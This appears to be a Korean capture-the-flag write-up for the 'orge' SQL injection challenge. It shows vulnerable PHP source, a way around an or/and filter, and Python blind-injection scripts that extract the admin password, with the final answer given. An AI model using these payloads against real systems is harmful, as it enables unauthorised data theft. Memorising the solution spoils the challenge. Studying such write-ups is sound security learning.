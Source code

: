 # orge

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- `or`, `and`를 필터링 한다.
- solve 함수를 실행시키려면, 정확한 admin pw를 알아야 한다.
&rarr; `blind-sqlinjection` 을 활용하여 구한다.

## 3. Solution
<a href="./../orc/orc.md"> `문제:orc` </a>와 마찬가지로 총 두 번의 sqli를 진행할 것이다.
추가된 점이라면, `or`과 `and`의 우회가 들어갔다.
1. pw의 길이
2. pw의 값


### a. Length of pw
변수명 | 값
---|---:
`pw` | 1234' || id='admin' && length(pw)=i #


우선, `length` 함수를 이용하여 길이를 구할것이다.

`&&`와 `#`은 url encoding을 하여 각각 `%26%26`, `%23`로 보내준다.
이는 URL을 해석하는 과정에서 다른 기능과 겹치지 않기 위함이다.
실제로 `&`은 파라미터 객체를 나누는 기준, `#`은 URL에서 anchor의 역할을 한다.


이후, 비교값 `i`는 반복문을 통해 적당값(ex. 1~20)을 넣어준다.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php?\
            pw=1234' || id='admin' %%26%%26 length(pw)=%d %%23" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
```
---


### b. Value of pw

변수명 | 값
---|---:
`pw` | 1234' || id='admin' && ascii(substr(pw,i,1))=j #


a. Length of pw 의 코드에 추가해 보자.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php?\
            pw=1234' || id='admin' %%26%%26 length(pw)=%d %%23" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break
        
pw_value = ""
for i in range(pw_len):
    for j in range(33,127):
        url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php?\
                pw=1234' || id='admin' %%26%%26 ascii(substr(pw,%d,1))=%d %%23" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
pw(1) : 7
pw(2) : 7b
pw(3) : 7b7
pw(4) : 7b75
pw(5) : 7b751
pw(6) : 7b751a
pw(7) : 7b751ae
pw(8) : 7b751aec
```
---



나온 pw 값을 최종적으로 대입해 보면 문제가 해결된다.

변수명 | 값
---|---:
`pw` | 7b751aec